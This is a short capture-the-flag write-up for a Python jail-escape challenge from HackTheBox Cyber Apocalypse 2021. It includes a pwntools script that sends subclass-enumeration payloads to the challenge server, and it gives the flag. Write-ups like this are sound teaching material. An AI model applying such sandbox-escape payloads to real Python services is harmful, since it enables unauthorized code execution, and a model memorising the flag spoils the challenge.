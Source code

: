 ```yaml
---
name: Build Yourself In (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Misc
description: Writeup for Build Yourself In (Misc) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Build Yourself In

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/3hP158TJk84/0.jpg)](https://youtu.be/3hP158TJk84?t=28s "HTB Cyber Apocalypse CTF 2021: Build Yourself In")

## Challenge Description

> The extraterrestrials have upgraded their authentication system and now only them are able to pass. Did you manage to learn their language well enough in order to bypass the the authorization check?

## Solution

```py
from pwn import *

context.log_level = 'warning'

for i in range(100):
    io = remote("138.68.151.248", 30697)
    # to_enumerate = '().__class__.__base__.__subclasses__()'
    to_enumerate = '().__class__.__base__.__subclasses__()'
    io.sendlineafter(
        '>>>', '[print(x) for x in [[' + to_enumerate + str(i) + ']]]')
    print(io.recvline())
```

Flag: `CHTB{n0_j4il_c4n_h4ndl3_m3!}`
